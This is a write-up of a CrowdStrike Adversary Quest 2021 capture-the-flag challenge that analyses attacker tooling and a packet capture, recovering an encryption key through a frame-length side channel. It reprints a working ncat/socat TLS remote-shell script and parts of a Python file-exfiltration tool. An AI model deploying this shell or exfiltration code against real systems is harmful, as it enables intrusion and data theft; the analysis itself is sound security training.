




# Crowdstrike Adversary Quest 2021 / Protective Penguin / #4 Exfiltrat0r

## Challenge Description
Additional analysis of the victim network allowed us to recover some PROTECTIVE PENGUIN tooling that appears to provide remote shell and data exfiltration capabilities. While we were able to capture some network traffic of these tools in action, all communications are encrypted. We have wrapped all relevant information into a TAR archive.
Are you able to identify any weaknesses that would allow us to recover the encryption key and figure out what data was exfiltrated?

## Approach
- Static Analysis of Evidence Files *cryptshell.sh* and *exfil.py*
- Analysis of Evidence File *trace.pcapng*
- Behavioural Analysis of *cryptshell.sh* and *exfil.py*
- Hyptothetize Approaches / Identification of a Side Channel Information Leak
- Exploiting Side Channel Information Leak to retrieve the Encryption Key
- Decrypt exfiltrated Files

## Static Analysis of Evidence File *cryptshell.sh*
### Code
```bash
#!/bin/sh

listen() {
    exec ncat -lvk4 $1 $2 --ssl -c 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"'
}

connect() {
    exec socat -,raw,echo=0 SSL:$1:$2,verify=0
    #exec socat - SSL:$1:$2,verify=0
}

if [ $# -eq 3 ] && [ $1 = "listen" ] ; then
    listen $2 $3
fi

if [ $# -eq 3 ] && [ $1 = "connect" ] ; then
    connect $2 $3
fi
```

### Code Analysis of *cryptshell.sh*
Used with command line arguments *listen* *ip* and *port*, the script starts a TLS server via *ncat* that yields a remote shell when connected to.
Executed with arguments *connect* *ip* *port*, the script acts as a TLS client using *socat* to connect to the server at *ip* *port*.

Question: Why is there a commented line that is an alternative *socat* command, missing the options *raw* and *echo=0*?
Could this be some kind of a breadcrumb for later?

## Static Analysis of Evidence File *exfil.py*
### Code (with large cuts)
```python
[lots of ASCII art ansi sequences and stuff cut out for readability]

class CryptMsg:
    def __init__(self, key, filename, host, port):
        self.version = 1
        self.key = key
        self.key_salt = get_random_bytes(16)
        self.derived_key = scrypt(self.key, self.key_salt, 32, 2**14, 8, 1)
        self.cipher = ChaCha20_Poly1305.new(key=self.derived_key)

    def _send_preamble(self):
        self.sock.sendall(b"".join([
            u8(self.version),
            u8(len(self.cipher.nonce)),
            self.cipher.nonce,
            u8(len(self.key_salt)),
            self.key_salt,
            self.cipher.encrypt(u32(len(self.filename))),
            self.cipher.encrypt(self.filename.encode()),
        ]))

    def _send_file(self):
        with open(self.filename, "rb") as infile:
            while chunk := infile.read(4096):
                self.sock.sendall(self.cipher.encrypt(chunk))

    def _send_digest(self):
        self.sock.sendall(self.cipher.digest())

    def tx(self):
        self.sock = socket.create_connection((self.host, self.port))
        self._send_preamble()
        self._send_file()
        self._send_digest()
        self.sock.close()
        self.finished = True

class AsciiChar:
  # stuff

class AsciiSequence:
  # more stuff

def banner():
    print_chunks(colorize("Exfiltrat0r v23"))
    print_chunks(colorize("-----------------"))

def interactive_key():
    print_linewise(colorize("Enter key:"))
    # stuff
    while c := getch():
        # stuff
        sequence.add_char(c)
        sys.stdout.write(sequence.render())
        sys.stdout.flush()
    return "".join(sequence.plain_chars)

def main(host, port, files, key=None):
    banner()
    if key is None:
        key = interactive_key()

    # stuff
    with ThreadPoolExecutor(max_workers=8) as executor:
        for path in files:
            msg = CryptMsg(key, path, host, port)
            executor.submit(msg.tx).add_done_callback(partial(done, msg))

if __name__ == "__main__":
    # arg parsing stuff
    main(args.host, args.port, args.file, args.key)
```

### Code Analysis of *exfil.py*
The purpose of this fancy python script seems to be the encrypted exfiltration of local files to a remote server. The cipher used in class **CryptMsg** is ChaCha20_Poly1305 ([RFC 7905](https://tools.ietf.org/html/rfc7905), [ChaCha20 Design](https://loup-vaillant.fr/tutorials/chacha20-design)).
Further insights on class **CryptMsg**
- The combination of the ChaCha20 stream cipher and the message authentication code (MAC) Poly1305 itself seems to be a good and secure choice.
- The key derivation via scrypt seems to look secure on first glance (`self.derived_key = scrypt(self.key, self.key_salt, 32, 2**14, 8, 1)`).
- File data is transmitted using the **tx()** method, which sends three data blocks: a) a preamble, b) the encrypted file data and c) the message authentication code (digest).
- The preamble seems to contain interesting unencrypted information like the nonce and the salt used for key derivation.

When executing *exfil.py* without any command line arguments, it shows usage information about expected arguments like mandatory *host* *port* *file* and an optional *key*:
```
$ ./exfil.py 
usage: exfil.py [-h] [-k KEY] host port file [file ...]
exfil.py: error: the following arguments are required: host, port, file
```

Executing *exfil.py* with some fake mandatory options and without the optional key parameter, we can witness lots of fancy ASCII art output, which isn't uncommon for quite a few open source offensive security toolings.
```
$ ./exfil.py 127.0.0.1 8888 trace.pcapng
   ____         ___   _    __  __               __   ___                     ___    ____
  / __/ __ __  / _/  (_)  / / / /_  ____ ___ _ / /_ / _ \  ____      _  __  |_  |  |_  /
 / _/   \ \ / / _/  / /  / / / __/ / __// _ `// __// // / / __/     | |/ / / __/  _/_ <
/___/  /_\_\ /_/   /_/  /_/  \__/ /_/   \_,_/ \__/ \___/ /_/        |___/ /____/ /____/


 ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____
/___//___//___//___//___//___//___//___//___//___//___//___//___//___//___//___//___/


   ____        __                    __                 _
  / __/  ___  / /_ ___   ____       / /__ ___   __ __  (_)
 / _/   / _ \/ __// -_) / __/      /  '_// -_) / // / _
/___/  /_//_/\__/ \__/ /_/        /_/\_\ \__/  \_, / (_)
                                              /___/
     __   ___   ___          __       _
 ___/ /  / _/  / _/  ___ _  / /      (_)
/ _  /  / _/  / _/  / _ `/ / _ \    / /
\_,_/  /_/   /_/    \_, / /_//_/ __/ /
                   /___/        |___/
Transfer failed: CryptMsg<key: 'dffghj', filename: 'trace.pcapng', host: '127.0.0.1', port: 22, finished: False> ([Errno 111] Connection refused)
```

When asked to enter the key, each character is displayed per keypress as some form of *echoing* back. This could be another breadcrumb for identifying a possible weakness or critical information leak.

## Analysis of Evidence File *trace.pcapng*
The packet capture file *trace.pcapng* contains four TCP streams as summed up by Wireshark / Statistics / Conversations / TCP.


Based on the stream metadata and browsing through the stream packet lists, we could likely derive that
- The TCP SYN packet for TCP stream 0 is found in capture frame number 1 with TCP destination port 31337.
- TCP stream 0 is doing a TLSv1.3 handshake using cipher suite TLS_AES_256_GCM_SHA384 (0x1302).
- This leads to the assumption that TCP stream 0 could be traffic originating from a cryptshell.sh connection from client IPv4 address 192.168.122.1 to listener IPv4 address 192.168.122.251 (read: a backdoored server in a target organization's network).

Given the above evidence files and circumstances, we can assume that the following TCP streams 1 to 3 might be traffic originating from data exfiltration attempts using *exfil.py*. With the knowledge about *exfil.py*'s class **CryptMsg** we can identify the following interesting frames.
Stream # | SYN frame # | Preamble frame # | File data frame # | MAC frame #
--- | --- | --- | --- | ---
1 | 1578 | 1581 | 1583 | 1585
2 | 1591 | 1594 | 1596 | 1598
3 | 1604 | 1607 | 1609+ | 1660

Further inspection of the preamble frames yield the unencrypted values for nonce and salt.
Stream | Preamble frame # | Nonce | Salt | Encrypted filename
--- | --- | --- | --- | ---
1 | 1581 | `604ae70f2d462935d4c54144` | `757ffad80a5f69891407751da4c724ba` | `af11d85130d82cc01a9771`
2 | 1594 | `0b5d769d19f3ba9b6217b9e0` | `adb882d28532070cf08cc9c984c6b752` | `84a4431c3b49660072e6709cdcd9`
3 | 1607 | `dbad67ae236b3b328678367b` | `e154fdc00c76bd1ff921cc27b9fa3bd5` | `4d6d1a222167aaf35f51357698`

## Hypothetize Approaches
### General Approaches & Ideas
To reiterate the used crypto algorithms:
- TCP stream 0 (cryptshell traffic) is using TLSv1.3 for transport layer encryption using cipher suite TLS_AES_256_GCM_SHA384 (0x1302, see capture frame number 6 offset 0x8e)
- TCP streams 1-3 (exfil traffic) is using the ChaCha20_Poly1305 stream cipher with message authentication and seems to apply a proper key derivation.

Both crypto algorithms currently do not have publicly known vulnerabilities or weaknesses that could be exploited for decryption.
TCP stream 0 does likely contain known plaintext in form of ASCII art output of the exfil.py usage. While this might open up a possibility for a known plaintext attack, it didn't appear a viable or easy approach.

TCP streams 1-3 each have a preamble frame in it, which contains known cipher and plaintext (like crypted filename length, which is known). But this didn't seem enough for a proper decryption approach.

With a bit of backtracking, remembering the breadcrumbs and rereading the challenge text part *[...] identify any weaknesses that would allow us to recover the encryption key [...]*, we would assume to find some kind of a side channel information leak.

So one approach could be to further experiment with *exfil.py* usage inside of a *cryptshell.sh* session.

### Identification of a Side Channel Information Leak
Since we already assume, that we won't retrieve the key or content data directly, we would be aiming for a [side channel attack](https://en.wikipedia.org/wiki/Side-channel_attack). One approach of this kind would be to monitor and analyze capture frame lengths.

For this we could use a setup like depicted below, using terminal windows for a cryptshell listener (right pane), cryptshell client (left upper pane) and a tshark packet sniffer only displaying frame numbers and frame lengths (left lower pane). The displayed state is that of a just opened cryptshell connection.



Executing *exfil.py* with only the mandatory command line arguments will display the below ASCII art that prompts to enter the encryption key.
```
$ ./exfil.py 127.0.0.1 8888 exfil.py                                                                                                                                                                         
   ____         ___   _    __  __               __   ___                     ___    ____
  / __/ __ __  / _/  (_)  / / / /_  ____ ___ _ / /_ / _ \  ____      _  __  |_  |  |_  /
 / _/   \ \ / / _/  / /  / / / __/ / __// _ `// __// // / / __/     | |/ / / __/  _/_ < 
/___/  /_\_\ /_/   /_/  /_/  \__/ /_/   \_,_/ \__/ \___/ /_/        |___/ /____/ /____/ 
                                                                                        
                                                                                     
 ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____
/___//___//___//___//___//___//___//___//___//___//___//___//___//___//___//___//___/
                                                                                     
                                                                                     
   ____        __                    __                 _ 
  / __/  ___  / /_ ___   ____       / /__ ___   __ __  (_)
 / _/   / _ \/ __// -_) / __/      /  '_// -_) / // / _   
/___/  /_//_/\__/ \__/ /_/        /_/\_\ \__/  \_, / (_)  
                                              /___/    
```

The sniffed traffic for this ASCII art will show the frame lengths of 248, 464, 536, 452 and 188.
This is a great **Bingo!** moment, as these frame length sizes do match for frame numbers #1527, #1529, #1531, #1533 and #1535 in the evidence file trace.pcapng!

### Exploitation of Side Channel Information Leak
This finding leads us to believe, that it might be possible to retrieve the key characters from interactive console input recorded into separate capture frames.

The capture frames directly following the ASCII art might leak which key was pressed. Each keypress seems to be delivered in a frame of length 89 bytes with a larger frame returned (due to ASCII art echoing back).

Simulating the interactive input of the key `aaaaaa` yields the following frame lengths.


These frame lengths of the cumulated characters echoed back are of sizes 260, 557 (+297), 839 (+282), 1112 (+273), 1403 (+291) and 1685 (+282) bytes. It looks like the size delta depends on more than just the plain character itself.

The following table lists the frame lengths of the key input frames from *trace.pcapng*.

Keypress | Packet # In | Packet Size In | Packet # Echo | Packet Size Echo
--- | --- | --- | --- | ---
1 | 1537 | 89 | 1538 | 265
2 | 1540 | 89 | 1541 | 643
3 | 1543 | 89 | 1544 | 888
4 | 1546 | 89 | 1547 | 1121
5 | 1549 | 89 | 1550 | 1412
6 | 1552 | 89 | 1553 | 1689
7 | 1555 | 89 | 1556 | 1919
8 | 1558 | 89 | 1559 | 2230
9 | 1561 | 89 | 1562 | 2527
10 | 1564 | 89 | 1565 | 2732
11 | 1567 | 89 | 1568 | 3023
12 | 1570 | 89 | 1571 | 3354
13 | 1573 | 89 | 1574 | 3717

After these packets the packet sizes differ in a way that suggests that the interactive key was 13 characters long.

So basically it's a trial and error from here on trying to find the correct keys yielding the same cumulated packet sizes from trace.pcapng.


This side channel information leak through ASCII art packet sizes yielded the key **my_s3cr3t_k3y** that was used to exfiltrate data via *exfil.py*.

### Decrypt TCP streams 1-3 with ChaCha20 Key
To decrypt the streams 1-3 from trace.pcapng we need each nonce and salt which - according to above analysis of exfil.py - have been transmitted in the unencrypted preamble packets.

Stream | Preamble Packet # | Nonce | Salt
--- | --- | --- | ---
1 | 1581 | `604ae70f2d462935d4c54144` | `757ffad80a5f69891407751da4c724ba`
2 | 1594 | `0b5d769d19f3ba9b6217b9e0` | `adb882d28532070cf08cc9c984c6b752`
3 | 1607 | `dbad67ae236b3b328678367b` | `e154fdc00c76bd1ff921cc27b9fa3bd5`

Install the required python module in case it isn't yet.
```
sudo pip3 install PyCryptoDome
```

Extract the crypted data from stream 3, save it as network.png.enc and decrypt via
```
#!/usr/bin/env python3
from Crypto.Cipher import ChaCha20_Poly1305
from Crypto.Protocol.KDF import scrypt
from Crypto.Random import get_random_bytes
from binascii import unhexlify

key = "my_s3cr3t_k3y"
nonce = unhexlify("dbad67ae236b3b328678367b")
key_salt = unhexlify("e154fdc00c76bd1ff921cc27b9fa3bd5")
derived_key = scrypt(key, key_salt, 32, 2**14, 8, 1)
cipher = ChaCha20_Poly1305.new(key=derived_key, nonce=nonce)

with open("network.png.enc", "rb") as f:
  c = f.read()

p = cipher.decrypt(c)

with open("network.png", "wb") as g:
  g.write(p)
```

The decrypted network.png yields the flag: CS{p4ck3t_siz3_sid3_ch4nn3l}
The first two streams contain a passwd and a funny rickroll. Thanks for that!

Flag: **CS{p4ck3t_siz3_sid3_ch4nn3l}**

## Conclusion
Using modern and cryptographically secure algorithms is a great start for securing the confidentiality and integrity of data transmissions.
But as this challenge shows quite nicely, that is not enough. Fancy ASCII art from tools used in an interactive shell might lead to information leaks through side channels like frame lengths (or timings).

